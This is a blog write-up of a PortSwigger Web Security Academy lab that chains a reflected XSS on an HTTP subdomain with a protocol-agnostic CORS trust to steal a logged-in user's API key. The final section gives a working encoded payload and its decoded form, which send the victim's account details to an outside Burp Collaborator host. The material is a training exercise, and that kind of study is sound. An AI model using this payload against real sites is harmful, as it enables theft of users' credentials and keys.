 ```yaml
---
title: Exploiting XSS via CORS trust relationships
description: Example test article that contains basic HTML elements for text formatting on the Web.
date: 2020-01-09
categories:
 - "Web 2.0 Security"

---
```


Continuing the Burp Suite Academy series. Today, we will go through CORS exploitations exercises... 
<!--more-->

The web application is the same online store which allows a user to log-in, change his e-mail address and retrieve his API key. This time around, the server only trusts requests originating from subdomains of the app.

```http
GET /api/requestApiKey HTTP/1.1
Host: <instanceId>.web-security-academy.net
Origin: https://subdomain.<instanceId>.web-security-academy.net
Cookie: sessionid=...
```

Response: 
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.<instanceId>.web-security-academy.net
Access-Control-Allow-Credentials: true
Content-Type: application/json
X-XSS-Protection: 0
Connection: close
Content-Length: 89

{
  "username": "******",
  "email": "",
  "apikey": "********************************"
}
```

Further testing reveals that the server is configured to accept **any protocol** as long as the request comes from a subdomain of the main application `<instanceId>.web-security-academy.net`.

This version of the application has a new function which allows a user to check the remaining stock of a given item. The request looks like this:

```http
GET /?productId=1&storeId=1 HTTP/1.1
Host: stock.<instanceId>.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: ...
Accept: ...
Accept-Encoding: ...
Accept-Language: ...
Connection: close
```

The paramater `productId` is not validated nor sanitized, and is vulnerable to reflected Cross-site Scripting. 

```
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=utf-8
Set-Cookie: session=5t8SM9hnfSxy91QpvWQ4o7rPMK8pg05H; Secure; HttpOnly
X-XSS-Protection: 0
Connection: close
Content-Length: 76

<h4>ERROR</h4>Invalid product ID: <script>alert("document.domain");</script>
```

Since the `stock.<...>` subdomain is running on `HTTP` (not `HTTPs`), the `session` cookies will never be transmitted to the browser. Therefore, our XSS will not be able to retrieve any of those. Right now, the impact of the vulnerability seems quite limited. Except, it is not !

We saw earlier that the server is configured to pass session cookies for any (cross-origin) request coming from a subdomain of the app, **regardless** of the protocol.

```
Access-Control-Allow-Origin: <protocol>://subdomain.<instanceId>.web-security-academy.net
Access-Control-Allow-Credentials: true
```

Therefore, it is possible for us to leverage this CORS (mis)configuration to bypass the limitations of Same Origin Policy (SOP) and retrieve the API key with a cross-origin request. Consider the following attack scenario:

1. Attacker hosts a malicious file in a server of his control
2. Attacker send a link to his exploit to Victim (who is already logged-in the main app)
3. Victim accesses the link and is redirected to `stock.<instanceId>.web-security-academy.net`
4. Victim's browser triggers the `rXSS` payload when rendering the page
5. Victim's browser requests his `apikey` on the main app. At this point, the `Origin` of this request will be a trusted subdomain with protocol `http`. Therefore the server CORS config will allow the request to go through
6. Victim's browser sends the `apikey` to the Attacker's server
7. Et voilà !
   
This the the payload I used to solve the corresponding exercise in BS Academy. It follows the aforementioned steps one-by-one. You can use the exploit server provided in the lab and conveniently force the Victim to visit it. In reality, the last part would require a little bit of social-engineering :-).

```html
<script>
let burpInstanceUrl = "<Your generated instance URL>";
/* We URL-encode our payload to prevent any hiccups when the browser will attempt render and execute the reflected XSS */
let xssPayload = "%3c%73%63%72%69%70%74%3e%6c%65%74%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%78%68%72%2e%6f%70%65%6e%28%22%47%45%54%22%2c%22%68%74%74%70%73%3a%2f%2f%61%63%65%35%31%66%63%39%31%65%65%32%36%32%65%33%38%30%62%32%35%31%38%65%30%30%62%63%30%30%64%31%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%74%72%75%65%29%3b%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%3d%74%72%75%65%3b%78%68%72%2e%6f%6e%6c%6f%61%64%3d%72%65%71%4c%69%73%74%65%6e%65%72%3b%78%68%72%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%7b%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%3a%2f%2f%74%64%61%6b%67%35%66%79%6b%78%62%38%72%6b%64%70%62%32%63%70%69%6b%61%6c%6a%63%70%36%64%76%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%3f%22%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3c%2f%73%63%72%69%70%74%3e";
/* Step 2: Leverage the reflected XSS vulnerability in the subdomain to make an AJAX call and recover the victim's API key */
let trustedUrl = `http://stock.${burpInstanceUrl}.web-security-academy.net/?productId=${xssPayload}&storeId=1`;
/*  Step 1: Redirect the victim to the subdomain whitelisted in CORS configuration */
document.location = trustedUrl;
</script>
```

```html
<!-- Decoded xssPayload -->
<script>
  let xhr = new XMLHttpRequest();
  xhr.open(
    "GET",
    "https://${your_instance_url}.web-security-academy.net/accountDetails",
    true
  );
  xhr.withCredentials = true;
  xhr.onload = reqListener;
  xhr.send();
  function reqListener() {
    location =
      "http://subdomain.burpcollaborator.net/?" +
      this.responseText;
  }
</script>

```

Tags: #cors,#burp-suite-academy
